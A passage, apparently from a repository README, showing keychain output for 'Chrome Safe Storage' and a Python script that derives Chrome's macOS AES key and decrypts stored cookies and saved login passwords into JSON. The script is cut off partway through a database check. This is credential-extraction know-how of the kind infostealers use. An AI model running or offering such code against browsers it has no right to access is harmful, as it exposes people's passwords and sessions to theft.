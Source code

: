 ```bash
	 [-] Service: b'Chrome Safe Storage'
	 [-] Base64 Encoded Password: b'<redacted>'
```

using the base64 safe storage key, and the following script, you can decrypt the cookies + login data, and get a JSON output. you'll need to provide the path to your login data: `login_data = ~/Library/Application Support/Google/Chrome/Default/Login Data`

```python
import sqlite3
import os.path
import base64
import urllib.parse
import sys
import json
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2


salt = b'saltysalt'
cookie_path = ""
login_data = ""
chrome_secret = ""
iv = b' ' * 16
length = 16

def chrome_decrypt(encrypted_value, key=None):

    # Encrypted cookies should be prefixed with 'v10' according to the
    # Chromium code. Strip it off.
    encrypted_value = encrypted_value[3:]

    # Strip padding by taking off number indicated by padding
    # eg if last is '\x0e' then ord('\x0e') == 14, so take off 14.
    # You'll need to change this function to use ord() for python2.
    def clean(x):
        return x[:-x[-1]].decode('utf8')

    cipher = AES.new(key, AES.MODE_CBC, IV=iv)
    decrypted = cipher.decrypt(encrypted_value)

    return clean(decrypted)
my_pass = chrome_secret.encode('utf8')
#my_pass = my_pass.encode('utf8')
iterations = 1003
cookie_file = os.path.expanduser(cookie_path)

# Generate key from values above
key = PBKDF2(my_pass, salt, length, iterations)

def diagnose_database(db_path):
    try:
        if not os.path.exists(db_path):
            print(f"Error: The file {db_path} does not exist.")
            return

        conn = sqlite3.connect(db_path)
        cursor = conn.cursor()

        # Check if the file is a valid SQLite database
        cursor.execute("SELECT sqlite_version();")
        version = cursor.fetchone()
        if version:
            print(f"Valid SQLite database. Version: {version[0]}")
```